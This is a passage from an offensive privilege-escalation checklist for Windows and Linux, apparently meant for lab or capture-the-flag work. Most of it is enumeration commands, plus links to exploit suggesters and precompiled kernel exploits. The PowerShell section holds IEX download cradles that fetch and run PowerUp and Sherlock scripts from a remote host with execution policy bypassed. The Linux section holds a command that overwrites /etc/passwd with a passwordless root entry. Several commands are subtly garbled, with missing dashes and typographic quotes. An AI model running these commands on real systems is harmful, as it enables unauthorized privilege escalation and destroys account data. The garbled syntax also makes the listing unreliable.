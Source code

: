 ````
C:\Windows\System32\
C:\Windows\System32\sysprep\
```

#### Accesschk - file permissions
```
accesschk.exe -uwdqs Users c:
accesschk.exe -uwdqs "Authenticated Users" c:\ (weak folder permissions)
accesschk.exe -uwqs Users c:*.*
accesschk.exe -uwqs "Authenticated Users" c:*.* (weak file permissions)
```

#### Scripts
- https://github.com/pentestmonkey/windows-privesc-check
- https://github.com/GDSSecurity/Windows-Exploit-Suggester
- https://github.com/M4ximuss/Powerless
- https://github.com/rasta-mouse/Sherlock

#### Precompiled exploits
- https://github.com/SecWiki/windows-kernel-exploits/
- https://github.com/abatchy17/WindowsExploits

#### Powershell
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive
NoProfile -File file.ps1
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.19:8080/PowerUp.ps1');Invoke-AllChecks"
echo "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.19:8080/Sherlock.ps1')" | powershell -noprofile -
```

# Priv-Esc (Linux) Check-List
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

#### OS – Version and Architecture
```
uname –a
cat /etc/*-release
lsb_release –a (Debian)
```

#### Current user and privileges
```
id
pwd
sudo -l
```

#### What users are on the machine?
```cat /etc/passwd
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd
grep –vE “nologin|false” /etc/passwd
```

#### What processes are currently running?
```
ps aux | grep root
netstat –antup
```
# World Writable

#### Find SUID files that are world-writable (or cronjob)
```find / -perm -u=s -type f 2>/dev/null```
```find / -perm -g=s -type f 2>/dev/null```

````